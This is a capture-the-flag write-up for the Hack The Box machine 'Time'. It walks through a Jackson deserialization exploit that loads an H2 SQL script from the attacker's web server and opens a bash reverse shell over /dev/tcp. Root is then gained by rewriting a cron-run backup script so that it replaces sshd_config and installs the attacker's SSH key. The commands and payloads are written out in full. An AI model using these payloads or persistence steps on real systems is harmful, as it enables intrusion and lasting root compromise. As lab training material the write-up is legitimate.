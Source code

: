 # Time

- [Time](#time)
  - [Discovery](#discovery)
  - [get user shell](#get-user-shell)
  - [Get a root shell](#get-a-root-shell)
    - [Direct ssh](#direct-ssh)
  - [Success](#success)

IP: 10.10.10.214

`echo 'time.htb 10.10.10.214' >> /etc/hosts`


## Discovery

`nmap -A time.htb`

Found current SSH on 22 and apache on 80.

In web browser found text entry box. placing invalid json in the box displays information about the library used to create the form:  jackson

This form will run java found in the well formatted json, we can use this 
to establish a reverse shell

## get user shell

my ip when connected was 10.10.16.22

> pipe listens on port 4444

`nc -lvp 4444`

> create our sql function to intiate the reverse shell, use our own ip and the port of our netcat listener

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash --norc -i >& /dev/tcp/10.10.16.22/4444 0>&1')
```

> serve this file (and others later)

`python3 -m http.server 8000`

> in validate form, use the exploit to download and run the script

`["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.22:8000/inject.sql'"}]`

>> this became tedious so let's just send with curl

`curl 'http://time.htb/' --data-raw 'mode=2&data=%5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.16.22%3A8000%2Finject.sql%27%22%7D%5D'`

**we have access!**

## Get a root shell

Let's upgrade our shell - not necessary
<!-- TODO use stty raw -->
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Messed around with `linenum.sh` but for this time box, let's look for cron job... 

or just listen for one:

download and server [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32s) with our webserver

```bash
cd /tmp # we can't write to /var/www
wget 10.10.16.22:8000/pspy32s
chmod +x pspy32s
./pspy32s
```

>2021/03/05 15:19:01 CMD: UID=0    PID=28297  | /bin/bash /usr/bin/timer_backup.sh 

This is running often AS root

### Direct ssh

Not sure how ssh is configured, we can just make our own config

On our machine

```bash
cat <<EOF > ./sshd_config
PubkeyAuthentication yes
PermitRootLogin yes
PasswordAuthentication no
MaxAuthTries 9999
EOF
```

serve up my pubkey as well

`cp ~/.ssh/id_rsa.pub .`

Back on the victim

```bash
cat << EOF > /usr/bin/timer_backup.sh
#!/bin/bash
# Can create a short lived reverse tunnel as root here as well
# bash --norc -i >& /dev/tcp/10.10.16.22/4445 0>&1
wget 10.10.16.22:8000/sshd_config
if ! diff sshd_config /etc/ssh/sshd_config; then
  cat sshd_config >/etc/ssh/sshd_config
  systemctl restart sshd
fi
# Ensure our ssh permissions
mkdir -p ~/.ssh
curl 10.10.16.22:8000/id_rsa.pub > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
EOF
```

## Success

`ssh root@time.htb`

> root@time:~# 